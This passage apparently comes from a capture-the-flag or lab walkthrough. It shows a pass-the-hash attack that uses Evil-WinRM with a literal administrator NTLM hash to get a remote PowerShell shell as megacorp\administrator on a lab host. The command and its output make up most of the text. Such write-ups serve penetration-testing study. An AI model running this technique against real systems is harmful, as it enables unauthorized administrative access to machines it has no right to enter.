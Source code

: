 

I can now use the administrator hash to get
[Evil-WinRM](https://github.com/Hackplayers/evil-winrm):



    root@kali# evil-winrm -u administrator -i 10.10.10.179 --hash 69cbf4a9b7415c9e1caf93d51d971be0

    Evil-WinRM shell v2.3

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
    megacorp\administrator







